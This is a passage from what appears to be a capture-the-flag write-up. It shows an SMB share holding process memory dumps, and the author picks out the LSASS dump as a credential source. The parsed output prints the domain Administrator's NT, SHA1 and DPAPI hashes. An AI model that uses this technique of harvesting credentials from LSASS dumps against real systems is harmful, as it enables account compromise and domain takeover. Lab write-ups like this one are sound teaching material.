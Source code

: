                 5102079 blocks of size 4096. 1694177 blocks available
```

after going through each of the files one by one I couldn't find anything of use except a list of domain admins (Administrator, **Ipwn3dYourCompany**) in the Memory Analysis folder, I found a load of Zip files 
```
5102079 blocks of size 4096. 1694177 blocks available
smb: \> ls memory_analysis\
  .                                   D        0  Thu May 28 21:28:33 2020
  ..                                  D        0  Thu May 28 21:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 21:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 21:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 21:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 21:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 21:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 21:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 21:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 21:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 21:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 21:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 21:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 21:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 21:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 21:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 21:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 21:27:53 2020
```

I done a quick google search to see if any of these might be useful and found lsass.zip which is where Mimikatz would dump plaintext credentials from. So I downloaded it and had a browse

```bash 
== LogonSession ==
authentication_id 153705 (25869)
session_id 1
username Administrator
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T17:59:04.506080+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-500
luid 153705
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
                SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
                DPAPI: 240339f898b6ac4ce3f34702e4a89550

```
